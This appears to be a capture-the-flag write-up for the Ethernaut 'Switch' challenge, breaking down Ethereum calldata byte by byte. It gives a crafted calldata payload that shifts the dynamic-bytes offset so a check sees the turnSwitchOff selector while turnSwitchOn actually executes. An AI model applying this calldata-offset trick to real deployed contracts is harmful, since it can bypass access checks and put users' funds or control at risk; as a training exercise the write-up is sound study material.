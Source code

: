 # Breakdown of solution for Ethernaut Switch

### Breakdown of the normal function call with the 'turnSwitchOff()' selector
0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000

1. `0x30c13ade` - Function selector of `flipSwitch()` function - 4 Bytes - Position 0
2. `0000000000000000000000000000000000000000000000000000000000000020` - Location of start of the input - 32 byes - Position  4
3. `0000000000000000000000000000000000000000000000000000000000000004` - Size of the input - 32 Bytes - Position 36
4. `20606e15` - Value of Input - Function selector of `turnSwitchOff()` - Position 68
5. `00000000000000000000000000000000000000000000000000000000`- Padding to complete the bytes32 slot

### Breakdown of the solution
0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000

1. `0x30c13ade` - Function selector of `flipSwitch()` function - 4 Bytes
2. `0000000000000000000000000000000000000000000000000000000000000060` - Location of start of the input - 32 byes -> 60 in hex is 96 in bytes
3. `0000000000000000000000000000000000000000000000000000000000000000`  - 32 bytes empty slot 
4. `20606e15` - Function selector of `turnSwitchOff()` to bypass the require statement - Position 68
5. `00000000000000000000000000000000000000000000000000000000` - Padding to complete the bytes32 slot 
6. `0000000000000000000000000000000000000000000000000000000000000004` - Size of the input 
7. `76227e12` - Function selector of `turnSwitchOn()` function
8. `00000000000000000000000000000000000000000000000000000000`- Padding to complete the bytes32 slot